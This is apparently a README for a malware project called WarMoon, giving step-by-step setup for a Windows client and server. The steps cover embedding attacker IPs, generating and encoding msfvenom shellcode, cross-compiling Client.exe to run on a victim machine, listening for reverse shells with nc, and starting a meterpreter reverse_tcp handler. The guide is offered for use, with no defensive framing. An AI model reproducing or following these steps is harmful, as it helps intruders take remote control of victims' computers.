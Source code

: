 # Setup

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```
2. Clone the repository:
```bash
git clone https://github.com/IvanT7D3/WarMoon/x64.git
```
3. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine
4. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)
5. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)
6. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables
7. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```
8. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.
9. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.
10. You should now be good to go, compile everything by typing:
```bash
x86_64-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```
11. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.
12. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```
If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

13. msfconsole commands for Inject64:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```
14. Everything should now be ready. Enjoy :)
